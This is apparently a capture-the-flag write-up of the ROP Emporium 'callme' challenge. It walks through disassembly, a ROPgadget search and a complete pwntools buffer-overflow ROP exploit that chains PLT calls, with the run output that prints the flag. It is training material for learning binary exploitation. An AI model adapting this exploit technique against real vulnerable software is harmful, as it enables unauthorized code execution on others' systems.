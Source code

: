 # callme

_call me maybe?_

This is where it gets interesting. Remember when I said to research the PLT last writeup? Yeah, this is why.

If you haven't already, read up on how it works. You can do so [here](https://ropemporium.com/guide.html#Appendix%20A), but there are tons of resources out there.

In this challenge, the author makes life easy for us and removes the need for any reversing by telling us the objective:

> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

This means we need to control `rdi`, `rsi`, and `rdx`, as parameters to functions are passed in these registers.

Looking at the binary in Cutter, we see the same three functions:

```text
sym.main
sym.pwnme
sym.usefulFunction
```

We also see this:

```text
sym.imp.callme_one
sym.imp.callme_two
sym.imp.callme_three
```

Now, the functions we have to call are outside of the binary. They are located in `libcallme.so`, which was provided with the challenge. This means they are dynamically resolved at runtime as they are called.

Going back to the binary, we'll take a look at `usefulFunction`'s decompilation:

```c
void usefulFunction(void)
{
    callme_three(4, 5, 6);
    callme_two(4, 5, 6);
    callme_one(4, 5, 6);
    exit(1);
    return;
}
```

Well, that's not very useful. Looking at the disassembly only strengthens this:

```assembly
; addresses removed for brevity
; usefulFunction ();
push    rbp
mov     rbp, rsp
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_three ; sym.imp.callme_three
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_two ; sym.imp.callme_two
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_one ; sym.imp.callme_one
mov     edi, 1 ; int status
call    exit ; sym.imp.exit ; void exit(int status)
```

Not only are the functions called in the wrong order, they are also called with the wrong arguments. In fact, we can't change these arguments, because we don't control `edx`, `esi`, or `edi`. We could find a gadget somewhere and `ret` directly to the calls after popping the required values into our registers, but that would be a long and complicated ROP chain.

As it turns out, this function is only here to make sure that the functions get imported by the linker at compile time and their entries get placed in the PLT.

So, instead of jumping to this, we could just jump to their entries in the PLT.

Now, all we need to do is find a gadget that can pop `rdi`, `rsi`, and `rdx`. The order doesn't matter, as we can craft the buffer overflow to suit the gadget. We can use `ROPgadget` to find such a gadget like so:

```text
$ ROPgadget --binary ./callme | grep rdi
0x0000000000400a3d : add byte ptr [rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3f : add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3c : add byte ptr fs:[rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x000000000040093b : lcall [rdi + 0x5e] ; pop rdx ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

Look at that second last result.

```text
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Three birds with one stone. Perfect.

With this, we can construct our exploit:

```python
from pwn import *

context.arch = "amd64"

# doing this saves us from hardcoding a lot of stuff
elf = context.binary = ELF("./callme")

# case in point:
# we can just lookup the addresses of each function via the symbol table.
# no need to trawl through the PLT looking for them.
CALLMES = [
    p64(elf.symbols.callme_one),
    p64(elf.symbols.callme_two),
    p64(elf.symbols.callme_three),
]

# set the params we need to call the functions with
RDI = p64(0xdeadbeefdeadbeef)
RSI = p64(0xcafebabecafebabe)
RDX = p64(0xd00df00dd00df00d)

# still need to hardcode this though
# pop rdi; pop rsi; pop rdx; ret
GADGET = p64(0x40093c)

# overflow the buffer
payload = b'A' * 40

# since we add the exact same things in the exact same order for each call,
# just use a loop
for i in range(3):
    # first ret to the gadget
    payload += GADGET
    # the gadget will pop rdi
    payload += RDI
    # then pop rsi
    payload += RSI
    # then pop rdx
    payload += RDX
    # then ret to the function
    payload += CALLMES[i]

conn = process("./callme")

conn.recvuntil(b'> ')
conn.send(payload)
recved = conn.recvall()

# pretty print because we can
print(recved.decode("ascii"))
```

Great. We can run this now.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process './callme': pid 186777
[+] Receiving all data: Done (104B)
[*] Process './callme' stopped with exit code 0 (pid 186777)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Boom.

